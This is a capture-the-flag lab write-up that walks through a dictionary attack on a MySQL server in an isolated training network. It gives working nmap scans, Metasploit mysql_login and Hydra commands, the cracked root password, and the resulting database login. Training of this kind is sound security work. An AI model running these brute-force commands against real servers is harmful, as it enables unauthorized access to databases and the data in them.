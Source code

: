 # MySQL Recon: Dictionary Attack

### Overview

> In this challenge we will look at the dictionary attacks on MySQL server. Please start the lab and answer the following questions:
>
> Questions
>
> 1. Find the password of user “root” which is required to access the MySQL server. Use suitable metasploit module with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt
> 2. Find the password of user “root” which is required to access the MySQL server. Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt
>
> Instructions:&#x20;
>
> * This lab is dedicated to you! No other users are on this network :)
> * Once you start the lab, you will have access to a root terminal of a Kali instance
> * Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
> * The Target machine should be located at the IP address 192.X.Y.3.
> * Do not attack the gateway located at IP address 192.X.Y.1



> 🔬 [MySQL Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=532)
>
> * Target IP: `192.207.185.3`
> * `MySQL` server dictionary attack.

```bash
root@attackdefense:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
233084: eth0@if233085: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:0b brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.11/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
233087: eth1@if233088: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:cf:b9:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.207.185.2/24 brd 192.207.185.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~# nmap -sn 192.207.185.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-28 02:53 UTC
Nmap scan report for linux (192.207.185.1)
Host is up (0.000023s latency).
MAC Address: 02:42:7A:12:33:F7 (Unknown)
Nmap scan report for target-1 (192.207.185.3)
Host is up (0.0000090s latency).
MAC Address: 02:42:C0:CF:B9:03 (Unknown)
Nmap scan report for attackdefense.com (192.207.185.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.00 seconds

root@attackdefense:~# nmap 192.207.185.3   
root@attackdefense:~# nmap -sV 192.207.185.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-28 02:55 UTC
Nmap scan report for target-1 (192.207.185.3)
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
MAC Address: 02:42:C0:CF:B9:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

> 1. Find the password of user “root” which is required to access the MySQL server. Use suitable metasploit module with password dictionary: `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

> Answer:
>
> `catalina`

```bash
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary(scanner/mysql/mysql_login) > options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.207.185.3
RHOSTS => 192.207.185.3
msf5 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/mysql/mysql_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/mysql/mysql_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_login) > exploit

[+] 192.207.185.3:3306    - 192.207.185.3:3306 - Success: 'root:catalina'
[*] 192.207.185.3:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 2. Find the password of user “root” which is required to access the MySQL server. Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt

> Answer:
>
> `catalina`

```bash
root@attackdefense:~# hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.207.185.3 mysql
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-28 02:59:45
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1009 login tries (l:1/p:1009), ~253 tries per task
[DATA] attacking mysql://192.207.185.3:3306/
[3306][mysql] host: 192.207.185.3   login: root   password: catalina
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-28 03:00:40
```

> Login to user "root" by using the password that we have brute forced.

<pre class="language-bash"><code class="lang-bash">root@attackdefense:~# mysql -h 192.<a data-footnote-ref href="#user-content-fn-1">2</a>07.185.3 -u root            
ERROR 1045 (28000): Access denied for user 'root'@'idngledxq7wvwbvotpvxb.temp-network_a-207-185' (using password: NO)
root@attackdefense:~# mysql -h 192.207.185.3 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2976
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
3 rows in set (0.001 sec)

MySQL [(none)]> 
</code></pre>















[^1]: 
